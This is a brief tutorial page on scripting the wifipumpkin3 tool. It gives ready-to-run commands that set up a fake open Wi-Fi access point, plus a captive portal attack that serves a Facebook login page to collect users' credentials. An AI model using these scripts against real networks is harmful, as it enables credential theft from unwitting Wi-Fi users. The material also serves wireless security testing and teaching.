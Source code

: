 # Pulp scripts

At times as hackers we would like to make things **easier** for us and **faster** one way, we could do this not only with this tool but legitimate everything is to write a script that automates all the commands we would like to input into the program.

## Creating Pulp Scripts

To create one set the file extension _**". pulp"**_

<figure><img src="../../../../.gitbook/assets/pulp_demo.png" alt=""><figcaption></figcaption></figure>

* Once created, use the parameter pulp to pass the created file with the configurations we set in.&#x20;

<figure><img src="../../../../.gitbook/assets/pulp_demo2.png" alt=""><figcaption></figcaption></figure>

### One-liner

* You can set configurations in just a line of commands.

```bash
wifipumpkin3 --xpulp "set interface wlan0; set ssid nisha; set proxy noproxy; start"
```

## Pulp scripts

### Create a fake AP

```bash
set interface wlan0
set ssid free_wifi
set proxy noproxy
ignore pydns_server
start
```

### Using captive portal attack

```bash
set interface wlan0
set ssid Free_wifi
use misc.extra_captiveflask
download
install facebook # simple as that
back
set proxy captiveflask
set captiveflask.force_redirect_to_url https://google.com
set captiveflask.facebook true
start
```

